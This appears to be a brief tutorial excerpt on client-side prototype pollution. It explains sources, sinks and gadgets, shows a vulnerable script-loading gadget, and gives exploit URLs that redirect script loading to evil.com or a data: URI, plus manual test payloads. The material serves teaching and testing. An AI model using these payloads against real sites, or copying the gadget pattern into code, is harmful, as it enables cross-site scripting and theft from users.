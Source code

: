 
## 🚰 Pollution Components

### ✅ Source

Where user-controlled input pollutes a prototype (e.g., query string, JSON, web messages).

### ✅ Sink

Where polluted data is used (e.g., DOM manipulation, function calls, security checks).

### ✅ Gadget

A property that connects the source to the sink in an exploitable way.

---

## 💥 Example Exploit

```js
let transport_url = config.transport_url || defaults.transport_url;

let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

**Exploit URL**:

```text
https://site.com/?__proto__[transport_url]=//evil.com
```

Or direct XSS via `data:` URI:

```text
https://site.com/?__proto__[transport_url]=data:,alert(1);//
```

---

## 🔎 Finding Prototype Pollution Vulnerabilities

### 🧪 Manual Testing

1. Inject via URL:

   ```
   ?__proto__[foo]=bar
   ?__proto__.foo=bar
   ```
2. Check in console:

   ```js
   Object.prototype.foo // "bar"
   ```
